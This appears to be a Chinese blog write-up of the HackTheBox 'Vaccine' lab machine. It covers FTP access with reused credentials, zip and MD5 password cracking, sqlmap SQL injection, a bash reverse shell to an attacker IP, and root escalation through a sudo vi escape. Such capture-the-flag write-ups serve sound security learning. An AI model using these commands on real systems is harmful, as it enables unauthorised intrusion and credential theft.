 # 原创
：  HackTheBox-Vaccine

# HackTheBox-Vaccine

#### HackTheBox-Vaccine

## 连接配置

> 
参考之前写的连接配置，[文章链接](https://blog.csdn.net/LYJ20010728/article/details/119116747?spm=1001.2014.3001.5502)


## 信息搜集

> 
使用nmap对场景给出的ip地址进行扫描


```
nmap -sS -A 10.10.10.46 

```

> 
发现其开放了21、22和80端口，利用[上一场景](https://blog.csdn.net/LYJ20010728/article/details/119119559?spm=1001.2014.3001.5502)得到的FTP用户凭据 `ftpuser/mc@F1l3ZilL4`，尝试登陆FTP服务


## 登录FTP

```
ftp 10.10.10.46
Name:ftpuser
Password:mc@F1l3ZilL4

```

> 
登陆后利用 `dir`命令列出所有的文件，发现存在 backup.zip 压缩包，利用 `get`命令下载下来


> 
发现下载下来的 backup.zip 是加密的，尝试利用 Kali 中的 john 来破解压缩包密码


## 破解压缩包密码

> 
首先生成压缩包的hash值


```
zip2john backup.zip &gt; hash

```

> 
利用 Kali 中自带的字典 `rockyou.txt`，将 rockyou.txt.gz 复制到桌面上并用 `gzip`解压缩


> 
使用 `john`来指定字典破解密码


```
john hash --fork=4 -w rockyou.txt 2&gt;/dev/null
--fork=4:4个进程
-w:指定字典路径
2&gt;/dev/null:将错误输出到黑洞(不显示)

```

> 
John破解得到压缩包密码：`741852963`


> 
利用 `unzip`解压 backup.zip得到 index.php 以及 style.css


## 获取登录密码

> 
查看 index.php 发现存在 admin账户以及其密码的MD5值


> 
利用网站在线破解一下这串hash值，[网站链接](https://www.cmd5.com/)，得到密码为：`qwerty789`


## 登录网站

> 
利用 `admin/qwerty789` 登录网站


> 
查看一下网站发现处于右上角的搜索框之外并没有什么利用点，在搜索框随便输入点内容，利用burp suite抓个包将内容保存下来


> 
利用sqlmap进行测试


```
sqlmap -r Vaccine.txt 

```

> 
发现确实存在注入点，并且后台数据库为PostgreSQL


## getshell

> 
由于是sql注入点，采用 `--os-shell` 来getshell


> 
先起一个监听


```
nc -nvvlp 1234

```

> 
然后在 `os-shell` 中输入 `bash -c 'bash -i &gt;&amp; /dev/tcp/10.10.16.53/1234 0&gt;&amp;1'` 来反弹shell


## 升级shell

> 
将升级 shell 升级为 tty，得到一个交互式的shell


> 
查找文件发现/var/www/html目录下的dashboard.php存在当前用户postgres的密码`P@s5w0rd!`


## 提权

> 
验证用户密码查看自己当前的权限


```
sudo -l

```

> 
发现用户被允许编辑配置文件 `/etc/postgresql/11/main/pg_hba.conf`，可以利用vi并验证密码提权至root<br/> 进入vi界面后可能会界面重叠，直接输入`:!/bin/bash`再点击回车即可，输入`whoami`发现已经成功提权为root


> 
进入`/root`目录下，查看 root.txt 文件，即可拿到SYSTEM OWN的Flag

